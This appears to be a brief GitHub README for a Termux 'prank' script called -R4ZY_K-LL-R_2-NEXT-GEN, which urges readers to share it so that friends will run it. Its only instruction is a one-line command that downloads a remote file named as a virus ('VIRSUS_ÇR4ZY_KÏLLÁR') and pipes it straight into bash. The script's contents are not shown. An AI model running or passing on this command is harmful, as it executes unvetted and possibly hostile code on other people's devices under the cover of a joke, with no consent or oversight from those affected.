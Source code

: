 # -R4ZY_K-LL-R_2-NEXT-GEN
Upgrade's from the old version "ÇR4ZY_KÏLLÁR"

Script Prank, Share this to your friend to prank them😈
Run on Termux!
```
curl -sL https://raw.githubusercontent.com/HikkiV/-R4ZY_K-LL-R_2-NEXT-GEN/main/VIRSUS_%C3%87R4ZY_K%C3%8FLL%C3%81R_2NEXT | bash
